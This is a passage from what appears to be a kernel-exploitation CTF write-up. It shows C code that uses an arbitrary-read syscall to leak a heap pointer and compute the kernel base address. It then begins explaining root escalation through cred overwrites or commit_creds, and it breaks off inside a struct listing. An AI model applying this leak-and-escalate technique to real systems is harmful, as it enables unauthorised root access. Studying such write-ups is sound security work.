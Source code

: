 ```c
    arb_read(ptr);
    ret = read_ptr_stdin();

    if(strlen(&ret) != 8){
        for(int i = 0; i < 8; i++){
            arb_read(ptr + i);
            tmp[i] = read_ptr_stdin() & 0xff;
        }
        ret = *(uint64_t *)tmp;
    }

    return ret;
}

uint64_t get_leak(){
    uint64_t leak, ptr;
    int offset = 0x150; // because the tty_dev_attr_group is always after this offset

    char *data[] = {"12345678"};
    syscall(SYSCALL_NO, data);

    read_ptr_stdin(); // discard "12345678"
    ptr = read_ptr_stdin(); // heap leak
    clear_stdin();

    while((leak & 0xffff) != 0x4ec0){
        leak = arb_read_ptr(ptr + offset);

        offset += 8;
    }

    return leak;
}

int main(int argc, char *argv[]){
    uint64_t ptr = get_leak();

    uint64_t kbase = ptr - 0x1074ec0;

    printf("kernel base: %p\n", kbase);
}
```
# Exploitation
In kernel pwn, our objective is to escalate our privileges to root. It is usually done in two ways.
- Overwriting the uids (uid, gid, euid, egid etc) in `cred` of `task_struct` of the current process.
- Executing `commit_creds(prepare_kernel_creds(0))`.

## What is task_struct and cred?
In linux, every process has a task_struct associated with it. It contains all information about the process (pid, file name, etc). It has a member called `cred` of type `struct cred`. It contains information about the privileges of the process (uid, gid, euid etc).
```c
struct task_struct {
[truncated]

	/* Process credentials: */

	/* Tracer's credentials at attach: */
	const struct cred __rcu		*ptracer_cred;

```